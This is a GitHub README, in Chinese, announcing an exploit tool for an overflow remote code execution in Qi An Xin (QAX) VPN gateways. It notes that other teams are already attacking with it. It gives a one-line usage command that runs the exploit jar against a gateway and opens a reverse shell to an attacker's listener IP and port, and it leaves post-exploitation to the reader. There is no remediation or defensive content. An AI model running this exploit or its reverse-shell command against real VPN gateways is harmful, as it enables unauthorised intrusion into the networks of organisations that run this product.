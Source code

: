# qianxin-vpn-pwn
奇安信 qax vpn pwn溢出 rce

已经看到有别的队伍在打了，预告一波，晚点放

## today


### 详情

某信vpn pwn溢出，可执行命令反弹shell，不过设备底层的系统阉割掉了很多东西，怎么后利用大家自己研究吧。

远古版本的3某0界面的vpn只有很小一部分能打，q某x界面的大多数都能打（23年3月发布的这款之前）


一键反弹：
```shell
java -jar QaxVpnPwn.jar -t vpn网关地址 -p vpn网关端口 -re_t 反弹监听ip -re_p 反弹监听端口

example：
java -jar QaxVpnPwn.jar -t vpn.xxx.com -p 443 -re_t x.x.x.x -re_p xxx
```

![](pwn.png)


![](reverse.png)

### 说明

1、pwn类型的洞没办法跟之前一样贴http数据包，想深入研究的可以自己逆向～

3、公关就删！



